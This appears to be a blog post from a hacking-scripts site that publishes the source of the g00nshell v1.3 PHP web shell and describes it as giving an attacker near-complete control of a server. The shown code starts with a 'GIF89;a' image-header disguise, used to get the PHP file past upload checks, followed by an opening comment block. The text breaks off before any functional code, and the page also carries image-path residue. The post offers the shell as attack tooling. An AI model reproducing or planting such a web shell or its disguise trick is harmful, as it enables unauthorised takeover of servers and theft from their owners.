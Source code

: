 ```yaml
---
id: 69
title: g00nshell v1.3
author: admin
layout: post
guid: http://hackingscripts.com/?p=69
permalink: /g00nshell/
categories:
  - g00nshell
  - PHP
tags:
  - g00nshell
  - PHP
---
```

The g00nshell is similar to the c99 shell, providing the attacker with pretty much complete access to the server.


### g00nshell v1.3 Source Code

{% highlight php linenos %}GIF89;a
666
<?php
/*

###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###